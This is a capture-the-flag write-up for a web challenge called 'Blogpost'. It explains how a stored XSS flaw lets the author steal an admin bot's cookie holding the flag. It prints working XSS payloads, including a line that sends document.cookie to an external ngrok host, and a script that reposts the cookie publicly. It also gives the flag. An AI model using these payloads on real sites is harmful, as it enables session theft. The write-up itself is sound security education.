

# Blogpost

### Description

Jaga created an internal social media platform for the company. Can you leak anyone's information?

## Solution

### 1. Standard Setup

As usual, when testing an unknown web application where you can register for an account, register for one. Mainly to test what you can do


### 2. XSS


Since in the source code, theres a `bot.js` accessing `/blog` as the admin user with a cookie holding the value of the flag, its likely using XSS to extract the cookies from the admin user. This is a relatively common problem topic, that I've seen in PortSwigger Labs while i'm practicing. I have also seen it in some CTFs before, such as the SEETF.

```js
import puppeteer from 'puppeteer';
import {sign, verify} from './helpers/JWTHelper.js';

const browser_options = {
	headless: true,
	args: [
		'--no-sandbox',
		'--disable-background-networking',
		'--disable-default-apps',
		'--disable-extensions',
		'--disable-gpu',
		'--disable-sync',
		'--disable-translate',
		'--hide-scrollbars',
		'--metrics-recording-only',
		'--mute-audio',
		'--no-first-run',
		'--safebrowsing-disable-auto-update',
		'--js-flags=--noexpose_wasm,--jitless'
	]
};

export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```

I tried submitting a blog post with HTML content & scripting. It is templated in without any escaping, so there is an XSS vulnerability

```
<h1>this is content</h1>
<script>console.log("alpha");</script>
```


Cookies can be accessed by Javascript
<!--![[Web/Blogpost/Images/6.png]]-->


### 3. Extracting the Cookie

I tried extracting the cookie with this payload. But Content Security Policy blocked this code from running. 

```
<script> var i = new Image(); i.src = "https://e65e-128-106-225-50.ngrok.io?q="+document.cookie; </script>
```

However, I realised that I just need an output for the document cookie that everyone can see. A way to output data is through making a post. So I'll just create a new blog post.

I copied the code from the create post endpoint, made some modifications to send the document cookie, and submitted the payload when making a post

```js
<form action="/post" method="POST" class="post-form">
	<input type="text" name="title" placeholder="Title" value="Cookies">
	<textarea name="content" placeholder="Content" id="content"></textarea>
	<button type="button" class="form-submit create">Create</button>
</form>
<script>
function getFormData($form){
    var unindexed_array = $form.serializeArray();
    var indexed_array = {};

    $.map(unindexed_array, function(n, i){
        indexed_array[n['name']] = n['value'];
    });

    return indexed_array;
}


let code = function(e){
	document.getElementById("content").value = document.cookie;
    var formData = JSON.stringify(getFormData($(".post-form")));

    $.ajax({
        type: "POST",
        url: "/post",
        data: formData,
        dataType: "json",
        contentType : "application/json"
    }).done(function(response){
        if (response.message == "Success"){
            window.location.href = "/blog";
        }
        else {
            console.log(response.message);
        }
    });
}
code();
</script>
```


After submitting the payload, wait for the flag to show up



TLDR

1. Register account, login
2. Post contents
3. Wait for flag to show up

# Flag

`STF22{s1mpl3_p0st_xSs_:)}`

Top 5 to solve

<!--![[Web/Blogpost/Images/score.png]]-->

